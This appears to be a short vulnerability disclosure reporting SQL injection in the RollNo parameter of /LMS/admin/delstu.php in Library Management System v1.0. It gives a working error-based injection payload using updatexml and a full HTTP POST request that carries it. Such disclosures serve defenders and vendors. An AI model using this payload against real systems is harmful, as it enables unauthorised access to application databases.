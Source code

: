 # Library Management System v1.0 by kingbhob02 has SQL injection

vendors: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /LMS/admin/delstu.php

Vulnerability location: /LMS/admin/delstu.php, RollNo

[+] Payload: delete=&RollNo=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--%20 // Leak place ---> RollNo

```sql
POST /LMS/admin/delstu.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 79

delete=&RollNo=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--%20
```

![image](https://user-images.githubusercontent.com/54017627/180586205-80330479-fccb-453c-a1d1-6f243e713673.png)
